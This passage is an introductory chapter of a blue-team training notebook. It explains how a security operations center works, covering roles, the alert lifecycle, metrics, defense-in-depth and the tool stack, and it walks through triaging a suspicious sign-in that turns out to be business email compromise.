








**Level:** Beginner · **Track:** SOC & Blue Team · **Read time:** 150 min

This is Chapter 1 of the SOC & Blue Team notebook, and it flips the polarity of everything the offensive notebooks built. For many chapters you have been the attacker: enumerating, exploiting, pivoting, evading. This notebook puts you on the other side of the glass — inside the Security Operations Center (SOC), where the job is to *see* the attacker in a flood of ordinary noise, decide fast whether an alert is real, and drive it to resolution before it becomes a breach. Every later chapter (SIEM search with Splunk and Sentinel, log analysis, detection engineering, threat hunting, incident response) assumes the frame this chapter builds: what a SOC is, who does what in it, how an alert flows from a sensor to a closed ticket, and the layered model — defense-in-depth — that determines where detections even *come from*.

A framing note that governs the whole notebook. Defensive work is lawful by construction: you are monitoring systems your organization owns and is authorized to monitor, under a documented policy. But that authorization is not unlimited — analysts routinely see private data (emails, DNS lookups, file names, HR-adjacent events), and a professional treats that access with the same restraint a doctor treats a chart. Minimum-necessary access, careful handling of personal data, and honest, non-alarmist reporting are as much a part of the craft as writing a good detection. Keep that in mind as we go: the blue team's power comes from visibility, and visibility is a responsibility.

We build from the ground up — what a SOC is and why it exists, the people and tiers, the alert lifecycle stage by stage, the metrics that measure a SOC, the defense-in-depth model and where each control lives, the CIA triad and how it maps to real controls, the technology stack (SIEM, EDR, SOAR, TIP), a hands-on triage lab you can reason through end to end, the difference between SOC/CSIRT/blue/purple, a consolidated detection-and-defense section, common mistakes, a final revision recap, a cheat sheet, and topic-specific practice labs.

## Why This Matters

Attackers only have to be right once; defenders have to be right continuously, at scale, under time pressure, on incomplete information. A modern enterprise generates millions to billions of log events a day. Somewhere in that firehose are the handful of events that represent a real intrusion — a stolen credential logging in from a new country, a service account suddenly running PowerShell, a workstation beaconing to a domain registered days ago. The entire purpose of a SOC is to compress that firehose into a small number of *decisions*: is this benign, suspicious, or malicious, and what do we do about it?

Understanding the SOC as a system — not just a room full of screens — is what lets everything else in this notebook make sense. When you write a Splunk search in Chapter 4 or a KQL analytic rule in Chapter 5, you are producing an *alert* that a Tier 1 analyst will see at 3 a.m. If that alert is noisy, ambiguous, or lacks context, you have not helped the defense; you have added to the noise that hides the real attack. Good detection engineering is inseparable from understanding the human workflow it feeds. This chapter builds that workflow so the technical chapters have somewhere to land.

**Who this is for:** anyone moving toward a SOC analyst, detection engineer, threat hunter, or incident responder role — and equally, offensive practitioners who want to understand exactly what they are up against. A red teamer who understands the SOC's blind spots and its triage rhythm is a far more effective (and more useful-to-the-defender) operator. This chapter is the shared vocabulary both sides need.

## Part 1: What a SOC Actually Is

A Security Operations Center is the organizational function responsible for **continuous monitoring, detection, analysis, and response** to cybersecurity threats. "Center" is slightly misleading — a SOC is a capability, not necessarily a place. It may be a physical room with video walls, a fully remote team spread across time zones, a managed service (MSSP) you pay by the endpoint, or a hybrid. What makes something a SOC is not the furniture; it is the *function*: someone is watching, all the time, with the authority and tooling to act.

Break that function into its core responsibilities:

- **Monitoring** — collecting telemetry (logs, alerts, network data, endpoint events) from across the environment and keeping eyes on it around the clock.
- **Detection** — turning raw telemetry into meaningful alerts through rules, analytics, signatures, and increasingly behavioral models.
- **Triage & analysis** — deciding, for each alert, whether it is a false positive, a benign true positive, or a genuine threat, and how severe it is.
- **Response** — containing, eradicating, and recovering from confirmed incidents, in coordination with IT and the business.
- **Improvement** — feeding lessons learned back into detections, playbooks, and controls so the same thing does not slip through twice.

That last point is the one beginners underrate. A SOC is a *learning loop*, not a filter. Every incident, every false positive, every near-miss should make the next detection sharper. A SOC that only reacts, without tuning and hardening, drowns.

### Why organizations build SOCs

The blunt driver is that prevention fails. Firewalls, antivirus, and patching stop the majority of commodity attacks, but a determined adversary — or a careless insider, or a novel exploit — will eventually get past preventive controls. Defense-in-depth (Part 5) accepts this: if prevention is imperfect, you need **detection and response** as the next layers. The SOC is the team that operates those layers. Regulatory and contractual pressure adds to it — frameworks like PCI-DSS, HIPAA, SOC 2, ISO 27001, and NIS2 effectively require continuous monitoring and incident response — but the real reason is simpler: you cannot respond to what you cannot see.

### SOC operating models

There is no single shape. The common models:

| Model | What it is | Best fit | Trade-off |
|-------|-----------|----------|-----------|
| **In-house SOC** | Fully staffed and owned by the organization | Large enterprises, regulated industries | Expensive; hard to staff 24/7 |
| **Virtual / distributed SOC** | Remote analysts, no central room | Cloud-native and remote-first orgs | Needs strong tooling & process discipline |
| **Co-managed SOC** | In-house team + MSSP working together | Mid-size orgs scaling up | Split ownership can blur accountability |
| **Managed SOC (MSSP/MDR)** | Outsourced to a provider | SMBs, orgs without security staff | Provider lacks deep business context |
| **Fusion center** | SOC merged with threat intel, fraud, physical security, IR | Mature, high-target orgs | Complex to run; high maturity required |

**MDR** (Managed Detection and Response) is worth calling out: it is the modern evolution of the MSSP, bundling monitoring *and* active response rather than just forwarding alerts. When you hear "we use an MDR," it means a third party is doing Tier 1/2 triage and often initial containment on your behalf.

### The 24/7 problem

Threats do not respect business hours; in fact attackers deliberately act during nights, weekends, and holidays because that is when SOC coverage is thinnest. True 24/7 coverage is hard: it takes roughly 5–6 full-time analysts to cover one seat continuously once you account for shifts, weekends, holidays, training, and attrition. This staffing reality is *why* automation (SOAR, Part 7) and outsourcing (MDR) exist, and why the "follow-the-sun" model — handing off between SOCs in different time zones — is popular in global companies.



That loop — sources to collection to detection to triage to response to improvement, feeding back into detection — is the SOC in one picture. Hold it in your head; the rest of the notebook fills in each box.

## Part 2: The People — SOC Roles and What They Actually Do

A SOC is a team of specialized roles. Titles vary between companies, but the functions are consistent. Understanding who does what prevents the classic beginner mistake of thinking "the SOC" is a monolith.

### Tier 1 — SOC Analyst (Triage)

The front line. Tier 1 monitors the alert queue, performs **initial triage**, and decides quickly whether an alert is a false positive, a known-benign true positive, or something that needs deeper investigation. They work from **playbooks** (documented step-by-step procedures) and are measured on speed and accuracy of triage. A Tier 1 analyst does *not* usually run a full forensic investigation; their job is to be a fast, reliable filter that escalates the right things and closes the rest with good notes.

Typical Tier 1 day: watch the queue, open the highest-priority alert, gather context (who is the user, is the asset critical, is this expected behavior?), check the source/destination reputation, decide, document, escalate or close, repeat. It is high-volume, pattern-recognition work. It is also the classic *entry point* into the field, which is why this notebook exists.

### Tier 2 — Incident Responder / Investigator

When Tier 1 escalates, Tier 2 takes over. They perform **deeper investigation**: pulling additional logs, correlating events across systems, examining endpoints with EDR, reconstructing what happened and how far it went. Tier 2 decides whether an escalation is a genuine incident, scopes it (which accounts, which hosts, what data), and drives initial containment. They need stronger forensic and analytical skills and deeper knowledge of attacker techniques — which is exactly why understanding MITRE ATT&CK (Chapter 3) matters so much at this tier.

### Tier 3 — Threat Hunter / Senior Responder / Detection Engineer

The most experienced practitioners. Their work is proactive and creative rather than queue-driven:

- **Threat hunting** — proactively searching the environment for threats that *evaded* existing detections, forming hypotheses from threat intel and testing them against the data.
- **Advanced incident response** — leading major incidents, doing deep forensics and malware analysis.
- **Detection engineering** — writing and tuning the detection rules that feed Tier 1's queue (the entire point of Chapters 4–6).

A healthy SOC treats Tier 3's detection-engineering output as the product that makes Tier 1 and Tier 2 effective. Bad detections mean Tier 1 drowns; good ones mean the queue surfaces real threats.

### Supporting and leadership roles

| Role | Responsibility |
|------|----------------|
| **SOC Manager** | Runs the SOC: staffing, shifts, metrics, escalation to leadership, budget. |
| **SOC Lead / Shift Lead** | Coordinates a shift, makes real-time escalation calls, mentors analysts. |
| **Detection Engineer** | Builds, tests, and tunes detection content (rules, analytics, correlation). |
| **Threat Intelligence Analyst** | Produces and operationalizes threat intel (IOCs, TTPs, actor tracking). |
| **SOAR / Automation Engineer** | Builds automated playbooks to reduce manual toil. |
| **Forensics / Malware Analyst** | Deep-dives disk/memory images and malicious samples. |
| **SIEM Engineer / Platform Admin** | Keeps the log pipeline and SIEM healthy, onboards new sources. |
| **CISO / Security Leadership** | Owns risk decisions, reports to the business, sets strategy. |

**Career-path note:** the common trajectory is Tier 1 → Tier 2 → Tier 3, then branching into detection engineering, threat hunting, incident response, or leadership. Nearly everyone starts at triage, and the skills you build there — reading logs, recognizing normal, documenting clearly — never stop being useful.



## Part 3: The Alert Lifecycle — From Sensor to Closure

The heartbeat of a SOC is the alert lifecycle. Every alert, from the most trivial false positive to the breach that makes the news, travels the same path. Master this and the day-to-day work of a SOC stops being mysterious.

**Stage 1 — Generation.** A sensor produces telemetry (an endpoint logs a process creation, a firewall logs a connection, an identity provider logs a sign-in). The SIEM or detection platform evaluates that telemetry against detection logic and, when it matches, fires an **alert**. Alerts carry a severity, a rule name, and the raw events that triggered them.

**Stage 2 — Enrichment.** Good pipelines automatically enrich an alert before a human sees it: resolve the username to a real person and department, tag the asset's criticality, look up IP reputation and geolocation, attach the file hash's reputation from a threat-intel feed. Enrichment is what turns "10.0.4.12 ran powershell.exe" into "the CFO's laptop ran an encoded PowerShell command reaching out to a domain registered two days ago." One of those is triageable; the other is noise.

**Stage 3 — Triage (Tier 1).** The analyst assesses: is this a **false positive** (the rule fired but nothing bad happened), a **benign true positive** (something really happened but it is authorized — e.g., an admin legitimately using PsExec), or a **malicious true positive**? They assign or confirm severity and decide: close, or escalate.

**Stage 4 — Investigation (Tier 2).** For escalations, the responder scopes the incident. Key questions: What exactly happened? When did it start (dwell time)? Which accounts and hosts are involved? What did the attacker touch or take? Is it still ongoing? This is where correlation across data sources (Chapter 2) and mapping to ATT&CK (Chapter 3) earn their keep.

**Stage 5 — Response.** For confirmed incidents, the SOC drives the response — the classic phases (from NIST 800-61) are **containment, eradication, and recovery**. Contain to stop the bleeding (isolate a host, disable an account), eradicate the attacker's foothold, recover systems to a trusted state.

**Stage 6 — Closure & Lessons Learned.** Every alert closes with documentation: what it was, what was done, disposition (false positive / benign / incident). Confirmed incidents get a post-incident review that feeds improvements back into detections and controls. This is the feedback arrow in the Part 1 diagram.



### Alert dispositions — the vocabulary

You will use these four terms constantly:

| Disposition | Meaning | Example |
|-------------|---------|---------|
| **True Positive (TP)** | Alert correctly identified real malicious activity | Detected an actual credential-stuffing attack |
| **False Positive (FP)** | Alert fired but activity was not malicious | Vulnerability scanner flagged as "attacker" |
| **True Negative (TN)** | No alert, and nothing bad happened | Normal traffic correctly ignored |
| **False Negative (FN)** | No alert, but something bad *did* happen | Breach the detections missed — the scary one |

False negatives are the nightmare, because you do not know about them by definition — they are what threat hunting (Tier 3) exists to find. False positives are the daily grind, because too many of them cause **alert fatigue**: analysts start rubber-stamping "close, FP" and eventually close a real one by reflex. Tuning to reduce FPs *without* creating FNs is the central tension of detection engineering.

## Part 4: Measuring a SOC — Metrics That Matter

You cannot improve what you do not measure, and SOCs live and die by a handful of metrics. Knowing them tells you what your future manager actually cares about.

- **MTTD — Mean Time To Detect.** Average time from when an intrusion begins to when the SOC detects it. Lower is better. Attacker **dwell time** (how long they went unnoticed) is the same idea from the attacker's side.
- **MTTA — Mean Time To Acknowledge.** Average time from alert firing to an analyst picking it up. Measures queue responsiveness.
- **MTTR — Mean Time To Respond (or Resolve/Remediate).** Average time from detection to containment or full resolution. The headline efficiency number.
- **Alert volume & FP rate.** How many alerts per day and what fraction are false positives. A soaring FP rate is an early warning of analyst burnout.
- **Escalation rate.** Fraction of Tier 1 alerts escalated to Tier 2 — too high suggests noisy detections or under-trained triage; too low can hide missed incidents.
- **Coverage.** How much of your attack surface and how many ATT&CK techniques your detections actually cover (Chapter 3 turns this into a concrete "ATT&CK heatmap").

| Metric | What it answers | Good trend |
|--------|-----------------|-----------|
| MTTD | How fast do we *see* attacks? | ↓ decreasing |
| MTTA | How fast do we grab alerts? | ↓ decreasing |
| MTTR | How fast do we *stop* attacks? | ↓ decreasing |
| Dwell time | How long do attackers hide? | ↓ decreasing |
| FP rate | How noisy are we? | ↓ decreasing |
| Detection coverage | How much can we even see? | ↑ increasing |

A caution learned the hard way in real SOCs: metrics can be gamed. If you reward analysts purely on "alerts closed per hour," you incentivize speed over accuracy and manufacture false negatives. Good SOC leadership balances speed metrics against quality (were dispositions correct on review?) and outcome metrics (did we actually catch the intrusions?). **Blue team usage:** when you tune a detection, watch its effect on FP rate and escalation rate, not just whether it fires — a rule that halves MTTD but triples FPs may be a net loss.

## Part 5: Defense-in-Depth — The Model Everything Sits On

Defense-in-depth is the foundational strategy of the entire discipline: **no single control is trusted to stop everything; instead, multiple independent layers each catch what the others miss.** The metaphor is a medieval castle — a moat, then walls, then a gate, then guards, then a keep. An attacker who clears one obstacle still faces the next. In security terms: if the firewall misses it, endpoint detection might catch it; if endpoint misses it, network detection might; if all prevention fails, the SOC's detection-and-response layer still gives you a chance to catch and contain before real damage.

The layers, from outside in:



- **People & policy** — security awareness training, acceptable-use policy, governance. The human layer; phishing lives and dies here.
- **Physical** — locks, badges, cameras. An attacker with physical access bypasses most digital controls.
- **Perimeter / network edge** — firewalls, IPS/IDS, secure gateways controlling what crosses the boundary.
- **Internal network** — segmentation and VLANs so a compromise in one zone cannot freely reach another; network detection (NDR) watching east-west traffic.
- **Endpoint / host** — EDR, antivirus, host hardening, patching. Where most modern detection actually happens.
- **Application** — secure development, input validation, WAFs — everything the AppSec notebooks covered, seen now as a defensive layer.
- **Data** — encryption at rest and in transit, data loss prevention (DLP), access controls limiting who can read what.
- **Identity** — MFA, least privilege, privileged access management (PAM). In cloud-first and remote-first worlds, identity is the *new perimeter*: if the network boundary is porous, the login is what actually gates access.

**Why this matters for detection:** each layer is not just a barrier but a **sensor**. The firewall generates connection logs; the endpoint generates process and file events; identity generates sign-in logs. Defense-in-depth is simultaneously your prevention strategy *and* your telemetry map — which is exactly why Chapter 2 (data sources) follows directly from this. When you plan detections, you plan them layer by layer, asking "what would the attacker do here, and which layer's logs would show it?"

### Related models you will hear

- **Zero Trust** — "never trust, always verify." Rather than trusting anything inside the network perimeter, every request is authenticated, authorized, and encrypted regardless of origin. It does not replace defense-in-depth; it *strengthens the identity and network layers* and assumes breach.
- **Assume breach** — design and operate as if the attacker is already inside. This mindset is why detection-and-response exists at all: prevention will fail, so plan for the day it does.
- **The Pyramid of Pain** (David Bianco) — ranks indicators by how much it hurts the attacker to change them: hash values and IPs are trivial for an attacker to swap (bottom), while their tools and TTPs (top) are painful to change. Good detection aims high on the pyramid. We revisit this in Chapter 3.

## Part 6: The CIA Triad and How It Maps to Real Controls

Underneath defense-in-depth sits the goal all of it serves: protecting the **CIA triad** — Confidentiality, Integrity, Availability. Every control and every detection ultimately protects one or more of these.

| Property | Goal | Real controls | What an attack on it looks like |
|----------|------|---------------|--------------------------------|
| **Confidentiality** | Only authorized parties can read data | Encryption, access control, MFA, DLP | Data exfiltration, credential theft, unauthorized DB reads |
| **Integrity** | Data and systems are not tampered with | Hashing, digital signatures, file-integrity monitoring, change control | Ransomware encryption, log tampering, defacement, backdoored binaries |
| **Availability** | Systems and data are accessible when needed | Redundancy, backups, DDoS protection, capacity planning | DDoS, ransomware, destructive wiper malware |

A useful extension is the **Parkerian Hexad**, which adds **possession/control, authenticity, and utility** — but CIA is the workhorse. As a SOC analyst, framing an incident in CIA terms sharpens your response: a ransomware event attacks *integrity and availability*, so your response prioritizes backups and isolation; a data-theft event attacks *confidentiality*, so your response prioritizes scoping what was accessed and notification obligations. **IR use case:** the first question in many incidents is "which leg of the triad is under attack?" because it drives the entire response playbook.

## Part 7: The SOC Technology Stack

A SOC runs on a stack of tools. You will spend the rest of this notebook inside several of them, so here is the map, taught from scratch.

### SIEM — Security Information and Event Management

The SIEM is the SOC's central nervous system. It **aggregates logs and events from across the environment**, normalizes them into a common format, correlates them, and runs detection rules that generate alerts. Think of it as a giant, searchable, real-time database of everything happening in your environment, with an alerting engine bolted on. Splunk (Chapter 4), Microsoft Sentinel (Chapter 5), and the Elastic Stack (Chapter 6) are three of the most common. When people say "the SIEM," they usually mean both the search/analytics platform *and* the detection content running on it.

Core SIEM functions: **collection** (get the logs in), **normalization/parsing** (make different log formats comparable), **correlation** (connect related events — a failed login here plus a success there plus a privilege change), **alerting** (fire when detection logic matches), and **investigation** (let an analyst pivot and search during triage).

### EDR — Endpoint Detection and Response

EDR agents live on endpoints (laptops, servers) and record rich, granular activity: process creation, command lines, file writes, network connections, registry changes, module loads. Where antivirus asks "is this file known-bad?", EDR asks "is this *behavior* bad?" — and lets a responder remotely investigate and act (isolate the host, kill a process, pull a file). CrowdStrike Falcon, Microsoft Defender for Endpoint, and SentinelOne are common examples. EDR is where a huge fraction of modern detection happens, because the endpoint sees what the attacker actually *does*. **XDR** (Extended Detection and Response) stretches this idea across endpoint, identity, email, and cloud into one correlated platform.

### SOAR — Security Orchestration, Automation and Response

SOAR platforms automate repetitive SOC work through **playbooks** — coded workflows that, say, automatically enrich an alert (look up the IP reputation, resolve the user, check the hash), or take response actions (disable an account, isolate a host) without waiting for a human. SOAR is the answer to the 24/7 staffing problem: automate the toil so analysts spend their time on decisions, not copy-paste enrichment. Examples: Palo Alto XSOAR, Splunk SOAR, Tines, Microsoft Sentinel's automation rules.

### TIP — Threat Intelligence Platform

A TIP aggregates and manages **threat intelligence**: indicators of compromise (IOCs — malicious IPs, domains, hashes), and higher-order intel about adversary tactics. It feeds the SIEM and SOAR so alerts can be automatically enriched with "is this indicator known bad, and who uses it?" MISP is a common open-source example.

### Supporting tools

Ticketing/case management (to track incidents), an IDS/IPS and NDR (network detection), a vulnerability scanner (to know your exposure), and increasingly cloud-native detection (CSPM, cloud audit logs).



Do not be intimidated by the acronym soup. The mental model is simple: **sources feed a SIEM; the SIEM makes alerts; SOAR automates the boring parts; EDR gives deep endpoint visibility and response; TIP adds context; humans make the decisions.** Every tool in the stack exists to move an analyst faster from "an event happened" to "here is what it means and what we did."

## Part 8: Hands-On Lab — Triaging a Suspicious Login End to End

Theory is cheap; triage is a skill you build by doing. This lab walks a single realistic alert through the full lifecycle so you can see how the pieces fit. You do not need a live SIEM to follow the reasoning — the point is the *method*. (Chapters 4–6 put you inside real query languages against real data.)

**Scenario.** Your SIEM fires this alert:

```
[ALERT] Impossible Travel / Atypical Sign-in
severity: medium
rule: identity_impossible_travel_v3
user: j.doe@acme.example
event 1: sign-in SUCCESS  09:02  src=203.0.113.44  geo=Mumbai, IN   result=success  mfa=satisfied
event 2: sign-in SUCCESS  09:41  src=198.51.100.9  geo=Toronto, CA   result=success  mfa=satisfied
distance: ~12,000 km in 39 min (physically impossible)
```

### Step 1 — Read the alert and form questions

The rule name tells you the hypothesis: the same account authenticated from two locations too far apart to travel between in the elapsed time. Before touching anything, note your triage questions:

1. Is this genuinely impossible travel, or an artifact (VPN, corporate proxy, mobile carrier IP, cloud region)?
2. Did MFA succeed legitimately, or was it satisfied by a push-bombing/consented prompt?
3. What did the account *do* after each sign-in?
4. Is this account privileged or does it hold sensitive access?

### Step 2 — Enrich

Gather context (a SOAR playbook would do much of this automatically). Reasoning through what enrichment tells you:

```
user: j.doe@acme.example  -> John Doe, Finance, standard user (not admin)
203.0.113.44  -> ASN: residential ISP, Mumbai; not a known corporate egress
198.51.100.9  -> ASN: hosting provider (VPS), Toronto; NOT a consumer ISP
threat intel: 198.51.100.9 seen in 2 prior credential-abuse reports (medium confidence)
device 1: registered iPhone belonging to John Doe
device 2: unrecognized Windows client, new browser fingerprint
```

Two facts jump out: the Toronto IP is a **hosting/VPS provider** (people do not live in data centers) with prior abuse reports, and it came from an **unrecognized device**. The Mumbai sign-in is from John's known iPhone. That reframes the alert: it is less "impossible travel" and more "a familiar device in Mumbai plus a suspicious new device on a VPS in Toronto."

### Step 3 — Investigate what happened after

Pivot from the sign-in to subsequent activity (this is the pivot you will do in SPL/KQL in later chapters):

```
after 09:41 Toronto sign-in:
  09:43  mailbox rule created: "move messages from 'CFO' to RSS Feeds, mark read"
  09:44  30 files accessed in SharePoint > Finance > Payroll
  09:47  OAuth consent granted to third-party app "Mail Reader Pro"
```

That sequence is a textbook **business email compromise** pattern: sign in, create a hiding rule so the victim does not see attacker replies, access sensitive data, and grant a malicious app persistent access. This is now clearly a **malicious true positive**, not a false positive from a VPN.

### Step 4 — Disposition and severity

Update the alert:

```
disposition: TRUE POSITIVE - account compromise (BEC)
severity: raise MEDIUM -> HIGH
reason: successful auth from abusive VPS on new device, followed by
